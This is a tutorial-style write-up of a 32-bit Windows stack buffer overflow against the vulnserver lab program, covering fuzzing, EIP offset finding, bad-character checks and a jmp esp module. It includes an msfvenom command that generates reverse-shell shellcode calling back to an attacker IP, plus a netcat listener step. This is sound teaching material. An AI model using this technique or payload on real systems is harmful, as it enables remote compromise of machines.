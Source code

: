 ## INTRODUCTION TO BUFFER OVERFLOWS


* In this writeup, I will provide a walkthrough of a 32-bit windows buffer overflow
* Topics to cover
	1. Anatomy  of the stack
	2. Fuzzing
	3. Finding the offset 
	4. Overwriting the EIP
	5. Finding the bad characters
	6. Finding the right module
	7. Generating shellcode
	8. Gaining root

# ANATOMY OF THE STACK

* When we look into the memory stack, we will find 4 main components
	1. Extended Stack Pointer (ESP)
	2. Buffer Space
	3. Extender Base Pointer (EBP)
	4. Extended Instruction Pointer (EIP) / Return address

* Buffer space is used as a storage area for memory in some coding languages. With proper input sanitation, information placed into the buffer space should never travel outside of the buffer space itself.
* Information placed into the buffer space should stop at the EBP
* In a buffer overflow, information escapes the buffer space and reaches the EIP. If an attacker can gain control of the EIP, he or she can use the pointer to point malicioud code and gain a reverse shell.

# FUZZING 

* Fuzzing allows us to send bytes of data to a vulnerable program in growing iteration in hopes of overflowing the bufferspace and overwriting the EIP. We can use a simple python fuzzing script
* Attach our debugger to the vulnerable program and observer how all the registers get overwritten. It took approximately 3000 bytes to crash the program
* What we need to do next is to figure out exactly where the EIP is located and attempt to control it.


# FINDING THE OFFSET

* So now that we know we can overwrite the EIP and it occurred between 1 and 3000 bytes, we can use ruby tools caled pattern create and offset to find the exact location of the overwrite. Pattern create allows us to generate a cyclic amount of bytes based no the number of bytes we specify.
* We can send those bytes to vulnserver to find out where exactly we overwrote the EIP. Pattern offset will help us determine that soon.
* ``` pattern_create.rb -l 3000 ``` where l is for length and 3000 is for bytes.
* we modify our code to include all of the bytes that were generated by pattern create.
* We send the bytes to vulnserver and notice we still overwrite the program. This time the EIP value indicates part of  our code we generated with pattern create.
* We can use pattern offset to find out where this pattern occurs
* ``` pattern_offset.rb -l 3000 -q 386F4337  ``` We get a match at 2003 bytes. We can now try to control the EIP

# OVERWRITING THE EIP

* Now that we know the EIP is after 2003 bytes, we can modify our code. We can add 4B's and 2003 A's in an attempt to reach and overwrite the EIP. The EIP is now 42424242. Remember the EIP has a length of 4 bytes so if we overwrite it successfully we will be in full control and on our way to root.
* So now we need to do some research to know what byte characters it is friendly with in order to finalize our exploit 

# FINDING BAD CHARACTERS

* Certain byte characters can cause issues in the development of exploits. We must run every byte through the vulnserver program to see if any characters cause issues. 
* By default, the null byte(x00) is always considered a bad character as it will truncate shellcode when executed. 
* We can add badchars in our code and send it over to vulnserver
* After sending this code, right click on ESP register and select "Follow in Dump"
* Check the hex dump, and if a bad character were present, it would seem out of place. In our case we don't find any

# FINDING THE RIGHT MODULE

* This means we need to find some part of vulnserver that does not have any sort of memory protections such as DEP, ASLR, SEH.
* After copying mona modules to vulnserver we can use it to find a jmp esp opcode that EIP will point to to jump to our malicious shellcode that we will later inject
``` !mona jmp -r esp``` will get us the module to use. Copy the address of the opcode and add it to our python code to overwrite our EIP. 
* The address is entered backwards to conform to little Endian. we can use struct module to pack the bytes in python
* We can set a breakpoint at that address and send the exploit. Immunity should trigger the breakpoint 

# GENERATING THE SHELLCODE

* We can use msfvenom to generate malicious shellcode which will tell the victim machine to talk back to our machine. 
``` msfvenom -p windows/shell_reverse_tcp LHOST=your.Kali.IP.address LPORT=4444 EXITFUNC=thread -f c -a x86 –platform windows -b “\\x00”```

-p is for payload. we are using a non-staged windows reverse shell payload
LHOST is the attacker IP, LPORT the attacker port
EXITFUNC=thread adds stability to our payload
-f is for file type, here we generate a c file type
-a is for architecture, we are attacking a x86
-platform is for OS type- windows machine
-b is for bad characters, our only one is x00

We add this to our exploit. we can also place a NOP padding (x90) to avoid interference with our return address

# GAINING ROOT

* We set up a listener, we can use msfconsole or nc to listen on the port we specified and then send the exploit
